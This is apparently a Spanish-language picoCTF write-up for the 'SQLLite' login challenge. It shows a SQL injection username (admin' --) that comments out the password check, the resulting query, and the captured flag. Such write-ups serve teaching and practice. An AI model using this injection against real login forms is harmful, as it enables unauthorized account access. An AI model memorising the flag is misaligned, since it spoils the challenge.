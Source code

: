### SQLLite
### Description 

Can you login to this website?Try to login [here](http://saturn.picoctf.net:54762/).
### Hint

- `admin` is the user you want to login as.

## Solución  1
```
usamos de los ejercicios anteiores los inyectores para nuestro username
en este caso 

username: admin' --
password: abcd
SQL query: SELECT * FROM users WHERE name='admin' --' AND password='abcd'

le damos a inspeccionar el codigo fuente y obtenemos nuestra bandera
picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}

```